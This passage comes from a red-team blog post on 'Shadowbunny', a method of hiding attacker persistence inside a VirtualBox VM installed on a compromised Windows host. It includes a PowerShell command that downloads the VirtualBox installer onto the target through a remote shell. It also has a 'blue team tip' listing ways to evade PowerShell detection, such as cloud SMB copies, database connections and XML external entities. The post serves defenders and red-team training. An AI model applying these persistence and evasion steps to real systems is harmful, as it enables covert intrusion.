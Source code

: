 The result is a PowerShell command prompt on the remote host. Now we can explore creating our first Shadowbunny on the target.

## Step 2: Checking if virtualization products are present already

Some virtualization products don't go well together, so if one is present its best to piggy back on the existing technology installed. For now, we assume no other product is present on the target.

## Step 3: Download and install or enable virtualization technology

In this post we are focused on VirtualBox. 

The current installer (as of writing this) for Windows is located at https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe. 

To quickly download the installer onto the target run:

```
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe
```

**Note:** Check the VirtualBox website, as the version could be outdated by the time you are reading this. And if you installed the Guest Additions into the VM earlier, ensure that the version numbers match.

The following screenshot shows pivoting on the target host “dangerzone” and download VirtualBox:
![Shadowbunny Download Virtual Box](/blog/images/2020/shadowbunny-step3.png)
 
The command to download VirtualBox will run for a bit, depending on your network connection.


### **Important Blue Team Tip**

In many environments that I have seen, and blue teams that I have spoken to, logging is pretty good when it comes to PowerShell command execution. 

Especially scripts that use `Invoke-WebRequest` or `WebClient` to download tools from the Internet get a lot of attention and are frequently manually investigated by an analyst.

However, there are many tactics to continue using PowerShell and still evade detections. 

>PowerShell as adversarial technique to run code will not go away, the same way as we still see malware use VBScript.

Just to give a few examples on top of my head that blue teams should look for:

* **Mount a Cloud SMB share and copy data** using a regular copy command.
* **My favorite is using a database connections** to load tools - but that’s because I used to work in the SQL Server division for many years and as the saying goes: “when all you have is a hammer, every problem looks like a nail” :)
* To highlight another tricky method, for instance **loading an XML document with an external entity** definition that contains attack payloads.
* There are many other ways an adversary can use PowerShell and hide by doing things slightly differently, then mainstream.
